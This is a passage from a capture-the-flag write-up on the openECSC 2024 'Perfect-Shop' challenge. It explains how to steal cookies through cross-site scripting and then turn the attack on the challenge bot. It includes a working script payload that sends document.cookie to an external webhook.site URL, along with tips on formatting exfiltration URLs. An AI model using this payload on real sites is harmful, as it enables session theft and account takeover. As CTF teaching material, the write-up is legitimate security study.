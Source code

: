 ##### Cookie stealing and webhooks
Cookies are a special type of header, and for this reason, there's a kind of shortcut in JavaScript that allows accessing them, namely the `document.cookie` property.

To successfully exfiltrate a user's cookies on the website, you need an endpoint reachable by the victim, which means exposing a server to make it accessible to anyone.

[Webhooks](https://en.wikipedia.org/wiki/Webhook) are... versatile things. For this challenge, a website like [webhook.site](https://webhook.site/) allows using them as if you were using your own server exposed to the outside world.

For a test, you can use a payload like this: `<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>`

In this type of payload, it's important not to use a random HTML tag, but to ensure that JavaScript code is actually executed (it's okay to insert the webhook URL concatenated with `document.cookie` inside an `onerror`, but not in a simple `src`) so that `document.cookie` is "reachable".

Also, you need to append the cookies as query parameters (for webhook and personal server) or as a path (for a personal server only). Failing to do so means appending the cookies as part of the host, which means the request will never reach the desired destination. For example, instead of ending up at `myhost.com`, it would end up at `myhost.comCOOKIENAME=COOKIEVALUE`, which makes no sense, unlike `myhost.com?c=COOKIENAME=COOKIEVALUE` or `myhost.com/COOKIENAME=COOKIEVALUE` (which doesn't make sense with `webhook.site`, unless you own that domain).

Executing the payload above by sending it to the search page yields the following result on webhook.site:

<img class="img-responsive" src="/openecsc2024/Perfect-Shop/img/FirstWebhook.png" alt="Example webhook result">

There are the cookies!

#### Second step: Cookie stealing on the bot
Perhaps it would have made more sense to find a valid payload with the character filter first, but during the competition, I was a bit panicked and wanted to make sure I could steal the bot's cookies without problems. Unfounded fear, as there was no kind of control in this regard, and the value of [`httpOnly`](https://owasp.org/www-community/HttpOnly) for the `flag` cookie wasn't specified, which means it will be set to the default value of `false`.

*What does this mean?* For security reasons, the optional `httpOnly` flag was introduced for cookies, which if set to `true`, prevents JavaScript code in the document from accessing `document.cookie`, mitigating exactly the type of attack I'm about to perform.

But first, let's delve into the bot's operation and the related report page.

<img class="img-responsive" src="/openecsc2024/Perfect-Shop/img/NetworkReport.png" alt="Inspection of a POST request to the reporting endpoint">

All fine, here's the ID and the message. Checking the logs, which appear on the terminal from which the `docker compose` was launched, it's also possible to verify which page was visited by the bot:

<img class="img-responsive" src="/openecsc2024/Perfect-Shop/img/BotVisitsProduct.png" alt="Example of logs indicating that the bot visited the page related to the reported product">

And if, for no reason, you wanted to send an ID different from those prefixed by the `select` proposed by the developer? In this case, it's very useful to modify the request with Burp Suite or similar tools. Unfortunately, I don't have the time to show you how to set up Burp on your trusted browser ([this](https://www.youtube.com/watch?v=Vn_Zst6BMGo) tutorial may be helpful) or to show you the process to solve the challenge without using similar tools.
